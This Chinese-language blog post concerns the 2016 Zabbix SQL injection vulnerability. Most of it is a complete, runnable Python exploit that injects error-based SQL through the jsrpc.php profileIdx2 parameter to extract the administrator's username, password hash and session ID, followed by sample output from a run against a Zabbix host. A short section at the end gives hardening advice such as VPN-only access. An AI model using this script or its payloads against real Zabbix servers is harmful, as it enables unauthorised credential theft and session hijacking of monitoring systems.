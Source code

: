 ```yaml
---
layout: post
title: Zabbix 最新 SQL 注入漏洞及 EXP
description: "Zabbix 最新 SQL 注入漏洞及 EXP"
category: Security
avatarimg:
tags: [Security, Zabbix, SQL Injection, EXP]
duoshuo: true
---
```


# 引言

这两天，大家都在说 Zabbix 的 SQL 注入漏洞，下面我们来看下。

# CNNVD：关于 Zabbix 漏洞情况的通报

CNNVD：关于Zabbix漏洞情况的通报(http://bobao.360.cn/news/detail/3468.html)  
上面详细介绍了漏洞简介，漏洞危害，及修复措施。但没有说到漏洞检测测试的方法。
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制](http://bobao.360.cn/news/detail/3462.html)，这篇文章提到漏洞检测测试的方法。  
下面我们根据以上漏洞测试方法来用 Python 写一个 Exp。

# Zabbix 最新 SQL 注入漏洞 EXP

来自 [zabbix最新SQL注入漏洞+EXP-独自等待博客](http://www.waitalone.cn/zabbix-sql-1.html) 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang

import urllib2
import sys, os
import re

def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True


def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\t    Origin Author: http://www.waitalone.cn/'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
        print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print u'Zabbix 存在 SQL 注入漏洞！\n'
        print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
        print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
        print u'Zabbix 不存在 SQL 注入漏洞！\n'

```    

以下为执行上述 Exp 脚本输出结果：

```bash
C:\Users\xxx\Desktop>python zabbix_exp.py
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
实例: zabbix_exp.py http://jaminzhang.github.io

C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
Zabbix 存在 SQL 注入漏洞！

管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
管理员  Session_id：16c9fe855b00a92112ae55cad58792c6
```    

漏洞修复方法上面提到的文档中都有说明，按照文档来修复吧。

# 扩展

## 1 运维思想

1. 如果 Zabbix 是通过 VPN 走公司内网访问，外面是无法访问 Zabbix 的
2. 如果 Zabbix 有外网地址，可以将 Zabbix 服务器的外网地址网卡 shutdown，使其无法从外网访问 Zabbix 服务器
3. 运维人员若想访问 Zabbix 查看监控，可以通过 VPN 连接公司内网，然后登录查看 Zabbix 监控
4. 黑客无法从外网访问你的 Zabbix 服务器，你的 Zabbix 服务器也就不存在漏洞的威胁

## 2 关于升级 Zabbix 服务器的风险

若贸然给服务器升级 Zabbix 服务的话，可能会造成监控业务的不稳定因素，需要提前规划好升级计划，要从根本上解决问题，规划配置好安全架构，而不是仅关注些许的漏洞

## 3 小结

* 漏洞是无止境的，只有只有从思想上去解决问题，才能避免安全事故的发生
* 技术的提升知识量的积累，思想的转变才是质的飞跃


# Ref
[CNNVD：关于Zabbix漏洞情况的通报](http://bobao.360.cn/news/detail/3468.html)  
[zabbix最新SQL注入漏洞+EXP](http://www.waitalone.cn/zabbix-sql-1.html)  
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制（更新利用工具）](http://bobao.360.cn/news/detail/3462.html)  
[SQL injection vulnerabilities in "Latest data"](https://support.zabbix.com/browse/ZBX-11023)  
[Zabbix 2.2.x / 3.0.x - SQL Injection](https://www.exploit-db.com/exploits/40237/)  
[poc, vul, exp都是什么意思呢](https://www.zhihu.com/question/26053378)  
